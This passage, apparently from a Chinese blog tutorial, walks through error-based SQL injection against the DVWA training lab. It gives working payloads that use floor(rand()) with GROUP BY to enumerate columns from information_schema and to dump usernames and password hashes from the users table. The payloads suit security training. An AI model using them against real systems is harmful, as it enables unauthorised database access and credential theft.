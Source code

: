 id=1' union select count(*),concat(floor(rand(0)*2),0x3a,(select concat(column_name) from information_schema.columns where table_name='users' and table_schema='dvwa' limit 0,1)) x from information_schema.schemata group by x#  
![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200430015816712-2117100789.png)

 改变limit限定数值，可以得出当前的字段 user_id first_name user password

  
⑤爆出user和password

id=1' union select count(*),concat(floor(rand(0)*2),0x3a,(select concat(user,0x3a,password) from dvwa.users limit 0,1)) x from information_schema.schemata group by x#  
![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200430015935310-1485761129.png)

再解码可得 admin-password  
![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200430020007244-546859095.png)

 大功告成！~~！